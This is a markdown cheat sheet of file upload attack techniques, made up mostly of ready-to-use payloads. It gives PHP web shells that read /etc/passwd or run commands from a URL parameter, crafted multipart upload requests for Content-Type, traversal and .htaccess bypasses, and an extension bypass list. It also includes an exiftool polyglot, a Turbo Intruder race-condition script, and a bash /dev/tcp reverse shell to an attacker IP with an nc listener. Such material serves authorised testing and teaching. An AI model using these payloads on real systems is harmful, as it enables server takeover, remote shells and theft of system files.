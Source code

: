 ```yaml
---
title: File Upload Vulnerabilities
desc: Examples of File Upload Vulnerabilities.
tags: [FileUpload, ReverseShell, Web]
alts: [Exiftool]
website:
render_with_liquid: false
---
```


## Web shell (.php)

```php
<?php echo file_get_contents('/etc/passwd');  ?>

// https://vulnerable.com/exploit.php?cmd=whoami
<?php echo system($_GET['cmd']); ?>
```

<br />

## Content-Type validation (change Content-Type)

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk
...
```

<br />

## Directory Traversal (change filename)

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk
```

<br />

## File Extension Bypass

```
exploit.php
exploit.php3
exploit.php4
exploit.php5
exploit.phtml
exploit.php.
exploit.php.jpg
exploit.php.png
exploit%2Ephp
exploit.p.phphp
exploit.php%00.jpg
exploit.php%0d%0a.jpg
exploit.pHp
exploit.gif.pHp
exploit.jpg.php
exploit.png.php
```

<br />

## Override Server Configuration

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .abc

------abcdefghijk
```

<br />

## Polyglot Web Shell (using exiftool)

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```

<br />

## Race condition (using Turbo Intruder)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,)

    request_post = '''POST /avatar/upload HTTP/1.1
Host: vulnerable.com
...
...
Connection: close

------abcdefghi
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk--

'''

    request_get = '''GET /files/avatars/exploit.php HTTP/1.1
Host: vulnerable.com
...
...
Connection: close


'''

    engine.queue(request_post, gate='race1')
    for i in range(5):
        engine.queue(request_get, gate='race1')


    engine.openGate('race1')
    engine.complete(timeout=60)
    


def handleResponse(req, interesting):
    table.add(req)
```

<br />

## Reverse Shell

```php
// Upload reverse_shell.php to the upload form
<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'"); ?>

// -------------------------------------

// Listening port on the attack machine...
nc -lvnp 4444

// ----------------------------------------

Access to http://vulnerable.com/path/to/upload/reverse_shell.php in browser.
```

<br />

## Filter (Client-Side & Server-Side) Bypass

If the target website uses filter JavaScript around file upload, you’ll be able to bypass it by using Burp Suite.

```sh
On Burp Suite, click "Proxy" tab and "Options".

# Client-Side
1. Navigate to "Intercept Client Requests" section, click on the top line ("File extension"...) then click "Edit".
2. The popup will open.
3. On the popup, find and remove the "|^js$" in the "Match condition", then save the filter.

# Server-Side
1. Navigate to "Intercept Server Requests" section and check "Intercept responses based on...".

# ----------------------------------------------

1. Turn the intercept on.
2. On browser, press Ctrl+F5 (hard refresh) to reload the page.
3. If you found the filtering file (.js), drop it.
```

<br />

## Bypass exif_imagetype() for PHP

Fake image file with exploit.php

```php
// exploit.php

GIF32a
<?php echo system('whoami'); ?>
```

<br />

## Magic Numbers

```sh
# PNG
89 50 4E 47 ...

# JPEG
FF D8 DD E0 ...

# JPG
FF D8 FF EE ...
```